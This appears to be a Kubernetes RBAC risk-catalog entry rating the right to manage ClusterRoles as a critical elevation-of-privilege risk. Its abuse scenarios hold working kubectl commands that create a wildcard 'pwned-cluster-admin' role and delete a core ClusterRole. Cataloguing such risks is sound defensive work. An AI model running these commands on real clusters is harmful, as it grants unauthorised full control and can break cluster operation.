 ```yaml
---
id: 1027
title: "Manage ClusterRoles (create, update, patch, delete)"
description: "Allows creating, modifying, or deleting ClusterRoles. This grants the ability to define or alter cluster-wide permissions, enabling an attacker to grant themselves or others arbitrary privileges, including full cluster admin access, leading to complete cluster compromise."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                             |
| ----------------------- | ------------------------------------------------------------------------------------------------- |
| ID                      | 1027                                                                                              |
| Name                    | Manage ClusterRoles (create, update, patch, delete)                                               |
| Risk Category           | Elevation of Privilege                                                                            |
| Risk Level              | {{< risk Critical >}}                                                                             |
| Role Type               | ClusterRole                                                                                       |
| API Groups              | rbac.authorization.k8s.io                                                                         |
| Resources               | clusterroles                                                                                      |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                          |
| Tags                    | {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Allows creating, modifying, or deleting ClusterRoles. This grants the ability to define or alter cluster-wide permissions, enabling an attacker to grant themselves or others arbitrary privileges, including full cluster admin access, leading to complete cluster compromise.

## Abuse Scenarios

1. Create a new ClusterRole with cluster-admin privileges.

```bash
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: pwned-cluster-admin
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete a critical ClusterRole, potentially breaking cluster functionality.

```bash
kubectl delete clusterrole <clusterrole-name>
# Example: kubectl delete clusterrole system:controller-manager

```
